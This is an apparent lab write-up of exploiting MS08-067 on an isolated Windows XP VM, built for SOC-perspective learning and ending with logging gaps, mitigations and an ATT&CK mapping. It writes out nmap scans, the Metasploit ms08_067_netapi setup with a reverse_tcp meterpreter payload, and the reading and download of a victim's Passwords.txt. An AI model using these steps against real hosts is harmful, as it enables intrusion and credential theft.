# MS08-067 Legacy Exploitation Case Study

## Lab Overview
The exploit simulates a real-world exploitation scenario in a legacy Windows XP environment that was vulnerable to MS08-067 (CVE-2008-4250). The intent was to demonstrate the risk of outdated systems and ascertain detection visibility from the SOC analyst's perspective.
The exercise demonstrates:

    Vulnerability scanning with Nmap

    Exploitation using Metasploit

    Post-exploitation actions (credential dumping, file exfiltration)

    Defensive shortcomings in legacy systems

Key Findings:
- ⚠️ System compromise within minutes
- ⚠️ Zero detection events prompted by Windows XP
- ⚠️ Immediate need for network segmentation and patching

## 🧪 Lab Setup
Isolated host-only network with static IPs (DHCP disabled to prevent IP conflicts)

### Network Configuration

| Action                   | IP Address           |Role      |
|--------------------------|----------------------|----------|
| Kali                     |  192.168.1.183       | Attacker |
| Windows XP               | 192.168.1.201        | Target   |


**Kali IP Setup**





**Windows XP IP Setup**





## Critical Step
Disabled Windows Firewall
<!-- XP firewall disabled -->
## Attack Workflow

### 1. 🔍 Reconnaissance

Host Discovery

``` bash
sudo nmap -sS -p- 192.168.1.0/24
```




Vulnerability Verification

```bash
nmap -p 445 --script smb-vuln-ms08-067 192.168.1.201
```



---

### 2. 💥 Exploitation
- Launch Metasploit Framework

```bash
msfconsole
```



- Configure Exploit Parameters

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.1.201
set LHOST 192.168.1.183
set RPORT 445
exploit
```




### 3. Post-Exploitation
- Manual Enumeration & Exfiltration
- Credential Access

**Meterpreter Session Opened**


**System Info**


---

## 🗂️ 

### 6. Navigate File System

```bash
cd C:\Documents and Settings\John\My Documents
dir
```



### 7. View and Exfiltrate Password

```bash
type "Passwords.txt"
```


```bash
download "C:\Documents and Settings\John\My Documents\Passwords.txt"
```


**Password file on Kali**


---

## 📉 Detection Findings

**Security Logs: Empty**


> The target system had no firewall, antivirus, or audit policy enabled. No security events were logged.

---

## 🧠 SOC Analyst Perspective

### 🔍 What should’ve been logged?
| Action                    | Expected Log/Event                         |
|--------------------------|---------------------------------------------|
| Reverse shell            | New process creation, outbound TCP          |
| Lateral movement (SMB)   | Network connection, service creation        |
| File access/exfil        | Object access, shell interaction            |

---

## 🔒 Mitigations & Recommendations

- Patch MS08-067 (CVE-2008-4250)
- Remove/segregate legacy systems from the network
- Enable Windows auditing policies
- Use modern EDR (e.g., Sysmon)
- Block SMBv1 and restrict SMB traffic

---

## 🧩 MITRE ATT&CK Mapping

| Tactic             | Technique                             |
|--------------------|----------------------------------------|
| Initial Access     | Exploit Public-Facing App (T1190)      |
| Execution          | Command and Scripting Interpreter (T1059) |
| Credential Access  | OS Credential Dumping (T1003)          |
| Collection         | Data from Local System (T1005)         |
| Exfiltration       | Exfiltration Over C2 Channel (T1041)   |

---

## 🧾 Conclusion

This lab demonstrates the ease of exploiting unpatched legacy systems and highlights the complete lack of detection due to missing logging. It reinforces the importance of strong visibility, patch management, and endpoint protection for defenders.

---

## 📎 Appendix


